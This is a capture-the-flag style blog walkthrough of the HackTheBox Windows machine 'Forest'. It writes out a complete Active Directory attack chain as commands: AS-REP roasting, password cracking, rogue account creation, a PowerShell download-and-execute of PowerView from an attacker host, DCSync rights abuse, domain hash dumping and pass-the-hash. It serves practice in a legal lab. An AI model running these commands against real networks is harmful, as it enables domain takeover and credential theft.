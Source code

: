 ```yaml
---
title: Forest @ HackTheBox - Complete Walkthrough
date: 2025-04-14 13:00:00 
last_modified_at: 2025-04-14 13:00:00
categories: [HTB Machines,Windows Machines]
tags: [hackthebox,forest machine,penetration testing,cybersecurity,walkthrough,windows,active directory]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post2/forest.png
  alt: "Forest Machine - HackTheBox Windows Challenge"
author: Ahmed BAHYA
excerpt: "Complete walkthrough of the Forest machine on HackTheBox. Learn Windows penetration testing techniques, Active Directory enumeration, and privilege escalation in this cybersecurity challenge."
description: "Step-by-step walkthrough of the Forest machine on HackTheBox. Master Windows penetration testing, Active Directory enumeration, and privilege escalation techniques in this comprehensive cybersecurity challenge guide."
keywords: [hackthebox, forest machine, windows, penetration testing, cybersecurity, walkthrough, privilege escalation, active directory, enumeration]
canonical_url: https://b2hu.me/posts/Forest-HTB-Walkthrough
---
```


## Table of Contents
- [Enumeration](#enumeration)
- [AS_REProast → Foothold](#as_reproast--foothold)
- [PrivEsc](#privesc)
- [Conclusion](#conclusion)

---
**Hello** This is a very simple walkthrough for the windows machine Forest (easy). In this walkthrough we'll be see some basic AD enumeration and Exploitation, without further ado let's get into it 
## Enumeration
### Nmap
we'll start with a an advanced tcp port scan of all of the open ports ($ports)
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
we can see from the scan that this machine is a domain controller for the domain htb.local next we’ll enumerate LDAP and look for anonymous bind 
> dont forget to add the domain to /etc/hosts file.
{: .prompt-tip }
### LDAP Enumeration
we’ll try enumerating ldap using the cli command : ldapsearch 
```shell
ldapsearch -H ldap://10.10.10.161 -x -b "dc=htb,dc=local"
```
the -x flag specifies using anonymous authentication, while -b denotes the basedn.
seems ldap anonymous bind is enabled, next we’ll do some digging to find extra info such as user and groups.
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U 
```
the -U used is for enumerating users, we could attempt to password spray all the users found but before doing so lets dig a little more in the ObjectClass of ldap, use  `--custom` flag withe `ObjectClass=*` argument to retrieve all :
```shell
windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "ObjectClass=*"
```
this query returned 312 results among them was an interesting user called `svc-alfresco` a few online search about this revealed that this account requires disabling pre-auth in kerberos, so that means the account is vulnerable to `AS_REProast`. 
This attack levrages the disabling of pre-authentication in kerberos to request a TGT from the KDC,meaning that any attacker knowing only the username can get a segment of the tgt that is encrypted with the victim’s password hash, after that the attacker can perform offline password crack to get the plaintext password.
## AS_REProast → Foothold 
for this we’ll use the script `GetNPUsers.py` from **Impacket** :
```shell
GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 
```
ok now since we've got the encrypted tgt ticket with the svc-alfresco password’s hash, now let's try to crack that, for this i'll use hashcat :
```shell
hashcat -m 18200 tgt /usr/share/wordlist/rockyou.txt
```
18200 represents the code for kerberos ASRep hash.

now that we get the password let's try to login to the account using **WinRM** service (reminder port 5985 was open), for this we’ll use evil-winrm :
```shell
evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice" 
```
## PrivEsc
now since we gained a foothold inside the active directory its time to unleash the bloodhound and enumerate, i like to use bloodhound-python as my ingestor if you are comfortable with sharphound feel free to use it :
```shell
bloodhound-python -d htb.local -usvc-alfresco -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 
```
next crate a neo4j instance and start bloodhound then upload the json files retrieved from the ingestor, after that search for the user svc-alfresco and mark it as owned. A quick review of the account group membership show that the user svc-alfresco is a member of 9 group
![screen_1](/./media/post2/bloodhound_1.png)
one in particular is interessting, the **Account Operators Group**, according to microsoft the account operators group members have the right to create users and add them to groups.

so from there lets see if we can find a high value target we can append a rogue user to and exploit it. go to analysis and select Shortest **Path to High Value targets**.
![screen_2](/./media/post2/bloodhound_2.png)

it looks like the exchange windows group has **writeDacl** rights on the domain and this could be leveragrd to grant the user any rights including **DCSync** right.

For this we’ll create another user called **jason** with a password of **psswd123** and then add him to 2 groups exchange windwos permissions and remote management users.
```powershell
net user jason psswd123 /add /domain
net group "Exchange Windows Permissions" jason /add
net localgroup "Remote Management Users" jason /add
```
The commands above create a new user named john and add him to the required groups. Next,
download the **PowerView** script and import it into the current session.

before loading the script we should use the **bypassAMSI** option in the menu.

Next, we can use the **Add-ObjectACL** with john's credentials, and give him **DCSync** rights.
```powershell
iex(new-object net.webclient).downloadstring('http://$IP:8090/PowerView.ps1')
$SecPassword = Convertto-SecureString 'psswd123' -AsPlainText -force
$Cred = New-Object System.Management.Automation.PSCredential('htb\jason', $SecPassword)
Add-objectACL -PrincipalIdentity jason -Credential $Cred -Rights DCSync
````
The **secretsdump.py** script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.
```shell
secretsdump.py htb/jason@10.10.10.161
```
now lets try to perform some **pass-the-hash** technique to acces the admin account, for this we’ll use **psexec.py** script from impacket :
```shell
psexec.py htb/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
## Conclusion
This we'll be the end of this walkthrough, as technique for solidifying my knowledge i like to list all the new things i've learnt in this machine. Since i am new to AD envirement i learned a lot of things in this box :
- **LDAP** Anonymous bind Enumeration (ldapsearch,windapsearch).
- **AS_REProast** Attack.
- **Bloodhound** Basic Enumeration.
- **DCSync** Attack
